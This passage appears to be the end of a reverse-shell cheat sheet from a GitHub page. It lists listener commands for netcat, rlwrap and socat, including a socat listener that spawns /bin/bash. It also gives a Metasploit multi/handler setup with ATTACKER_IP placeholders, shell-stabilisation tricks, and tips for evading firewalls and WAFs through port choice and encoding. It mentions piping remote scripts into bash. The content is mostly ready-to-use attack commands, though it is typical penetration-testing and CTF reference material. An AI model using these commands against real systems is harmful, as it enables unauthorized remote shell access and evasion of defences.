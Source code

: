 **More verbose version showing additional connection details:**
```bash
nc -lvp <ATTACKER_PORT>
```

**Using `rlwrap` for better shell experience (if available):**
```bash
rlwrap nc -lvnp <ATTACKER_PORT>
```
`rlwrap` adds readline support (history, line editing) to the netcat listener, which can be very helpful for interactive shells.

**Using `socat` (more robust):**
```bash
socat file:`tty`,raw,echo=0 tcp-listen:<ATTACKER_PORT>
```
Or for a full TTY:
```bash
socat tcp-listen:<ATTACKER_PORT>,reuseaddr,fork exec:/bin/bash,pty,stderr,sigint,sane
```

**Listener Tools:**
*   `penelope`: A modern reverse shell handler. (GitHub: https://github.com/brightio/penelope)
*   `pwncat-cs`: Enhances basic reverse shells. Install with `pipx install pwncat-cs`.

**Metasploit Listener:**
```bash
# Configures Metasploit to handle reverse shells
use exploit/multi/handler
set PAYLOAD <payload_type>  # e.g., windows/meterpreter/reverse_tcp
set LHOST <ATTACKER_IP>
set LPORT <ATTACKER_PORT>
run
```

## Notes

*   **Shell Stability:** Reverse shells obtained are often not full TTYs. For better interaction (e.g., using `su`, `sudo`, text editors like `vim`), you might need to stabilize the shell. Common techniques involve using `python` or `script` to allocate a PTY.
    *   `python -c 'import pty; pty.spawn("/bin/bash")'`
    *   `script /dev/null` (then `Ctrl+Z`, `stty raw -echo`, `fg`, `reset`, `export TERM=xterm`)
*   **Firewall/Egress Filtering:** Reverse shells are often more successful than bind shells because they egress on common ports (like 80, 443) or because firewalls are less restrictive for outbound connections. Try using a common port like 80, 443, 53 if you encounter trouble with firewalls.
*   **Encoding:** Sometimes, special characters in commands need to be URL-encoded or base64-encoded to avoid issues with interpretation by intermediate systems (e.g., web application firewalls). Online tools like CyberChef can be used for encoding/decoding.
*   **Web Shells:** When injecting into web applications, you might need to prepend commands with `bash -c` to ensure they are executed correctly in a shell context.
*   **Length Limits & Filters:** If there are strict length limits or command filters, techniques like fetching a script from a remote server (`curl ... | bash`) or using encoding (`xxd`, Base64) can be very effective.
*   Replace `<ATTACKER_IP>` with your attacking machine's IP address (e.g., your `tun0` interface IP).
*   Replace `<ATTACKER_PORT>` with your desired port number.
